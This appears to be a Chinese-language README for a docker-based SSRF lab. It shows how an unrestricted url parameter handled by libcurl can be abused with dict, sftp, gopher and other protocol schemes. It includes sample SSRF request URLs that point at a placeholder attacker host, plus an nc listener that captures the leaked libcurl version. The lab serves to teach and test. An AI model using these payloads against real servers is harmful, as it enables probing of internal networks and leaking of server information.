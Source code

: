 ## SSRF libcurl protocol wrappers

参数url没有做限制，可以访问内网地址。请求过程中使用到了liburl库，并且liburl配置不当，可以让攻击者使用除http(s)之外的多个libcurl protocol wrappers，比如 ftp: //xxx.com/file 会让服务器发起ftp请求

参考：

[SSRF libcurl protocol wrappers利用分析][1]

[HITCON CTF 2015 Quals Web 出題心得 0x04 400 lalala (2 隊解)][2]

## docker run 

```
sudo docker run --name ssrf_curl -p 8084:80 janes/ssrf_curl
```

测试加载图片：

```
http://victim:8084/ssrf_curl.php?url=http://download.easyicon.net/png/1199986/96/
```

在另外一台机器上开 nc监听

```
nc -lvp 2222

http://victim:8084/ssrf.php?url=http://attacker:2222/
```

## 可利用的协议

文章中指出可利用的协议

```
SSH (scp://, sftp://)
POP3
IMAP
SMTP
FTP
DICT
GOPHER
TFTP
```

libcurl 支持的协议：

```
$ curl -V

Protocols:
dict file ftp ftps gopher http 
https imap imaps ldap ldaps pop3 
pop3s rtmp rtsp scp sftp smb 
smbs smtp smtps telnet tftp  
```

注：

libcurl 中的 gopher 只能接受 0x00 - 0xff



## 信息泄漏

* dict 

```
http://victim:8084/ssrf.php?url=dict://attacker:2222/
```

nc 端：

```
CLIENT libcurl 7.35.0

QUIT
```

* sftp(需要curl编译安装libssh库)

```
http://victim:8084/ssrf_curl.php?url=sftp://attacker:2222/
```

## 利用GOPHER协议伪造发送邮件

参见 [SSRF libcurl protocol wrappers利用分析][1]

[1]: http://drops.wooyun.org/papers/13948
[2]: http://drops.wooyun.org/web/9845